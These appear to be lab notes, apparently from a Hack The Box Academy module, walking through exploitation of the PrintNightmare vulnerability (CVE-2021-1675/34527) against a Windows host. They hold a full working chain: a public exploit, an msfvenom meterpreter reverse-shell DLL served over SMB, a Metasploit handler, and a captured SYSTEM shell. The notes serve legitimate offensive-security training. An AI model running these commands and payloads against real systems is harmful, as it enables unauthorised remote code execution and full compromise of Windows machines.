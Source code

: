 ```yaml
---
title: b-PrintNightmare
draft: false
tags:
  - printnightmare
---
```

PrintNightmare is made of [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675).

Let's first clone the exploit:

```shell-session
jadu101@htb[/htb]$ git clone https://github.com/cube0x0/CVE-2021-1675.git
```

In order for this exploit to work, we will need to use cube0x0's version of impacket. We need to uninstall the version of Impacket on attack host and reinstall cube0x0's version:

```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

## Enumerate for MS-RPRN

Let's use rpcdump.py to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

```shell-session
jadu101@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

## Generate DLL Payload

Now that we have confirmed above, let's move on to using the exploit. We will craft a DLL payload using msfvenom:

```shell-session
jadu101@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 8704 bytes
```

## SMB Share

Now we will host this payload in a SMB share:

```shell-session
jadu101@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```


## MSF multi/handler

Once the share is created and hosting our payload, we can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target.

```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080
```


## Run Exploit

Share is hosting the payload and our multi/handler is listening, let's run the exploit:

```shell-session
jadu101@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

<SNIP>
```



On MSF multi/handler, we get a shell:

```shell-session
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

